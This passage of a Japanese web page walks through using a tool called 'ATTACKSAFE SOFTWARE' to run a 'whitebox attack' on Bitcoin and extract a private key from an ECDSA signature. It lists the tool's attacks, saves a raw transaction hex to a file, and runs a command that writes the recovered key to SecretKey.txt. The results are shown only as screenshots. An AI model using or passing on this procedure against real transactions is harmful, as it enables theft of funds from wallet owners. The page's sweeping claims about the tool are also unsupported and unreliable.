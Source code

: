 
<pre class="wp-block-code"><code>./attacksafe -version</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-18.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1587"/></figure>



<p><code>"ATTACKSAFE SOFTWARE"</code>ビットコインに対するすべての一般的な攻撃が含まれています。</p>



<h2>すべての攻撃のリストを実行してみましょう:</h2>



<pre class="wp-block-code"><code>./attacksafe -list</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-19-1024x631.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1589"/></figure>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-20-1024x631.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1590"/></figure>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-21-1024x631.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1592"/></figure>



<p>次に選択します<code>&nbsp;-tool: whitebox_attack</code></p>



<p>脆弱な ECDSA 署名トランザクションから秘密鍵を取得するために、データを<code>RawTX</code>テキスト ドキュメントに追加してファイルとして保存しましょう<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001a60ae2965c16c0a72bb764ec4f6f0dc6acfd3af3f49a73c06ae48ddfe4a7b76b020000006a473044022015e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff0102202d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff019e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool whitebox_attack</code>ソフトウェアを使用して起動する<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-22-1024x276.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1594"/></figure>
